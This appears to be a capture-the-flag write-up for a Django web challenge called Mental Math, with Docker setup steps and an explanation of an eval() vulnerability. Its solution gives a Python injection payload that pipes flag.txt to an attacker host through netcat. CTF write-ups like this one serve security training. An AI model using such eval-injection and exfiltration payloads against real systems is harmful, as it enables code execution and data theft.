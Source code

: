 # Mental Math

## Description

My first web app, check it out! `localhost:8000`

### Setup Docker

[Download File](https://github.com/KelompokStudiLinux/WriteUp-CTF/raw/master/WEB/mentalmath/mentalmath.zip)

pada directory yang berisikan file `Dockerfile` atau `docker-compose.yml` jalankan:
1. `docker-compose up -d --build` untuk menjalankan container di background
2. `docker-compose down` untuk mematikan container

Note: will have to change `ALLOWED_HOSTS` in Django and the `UWSGI_ROUTE_HOST` environment variable in
the Dockerfile once we know where this will be hosted.

Also note that since we give arbitrary code execution, the server is restarted every five minutes.

## Documentation

A pretty simple Django Python `eval` vuln. The hard part is deducing that there may be an
`eval` present here, and also figuring out that this is a Django app. There is a comment
in one of the HTML files with leftover Django templating which serves as a hint. It teaches
participants how to think like an attacker in that the fact that the math problem
is sent over AJAX back to the server might mean it is being passed to an `eval`.

## Solution

The `problem` parameter to the endpoint `new_problem` is `eval()`ed. So one can send the following
in this parameter (and setup a listener on `<attacker-ip>` of course) to get the flag.
```python
__import__('os').popen('cat flag.txt | nc <attacker-ip> <attacker-port>')
```
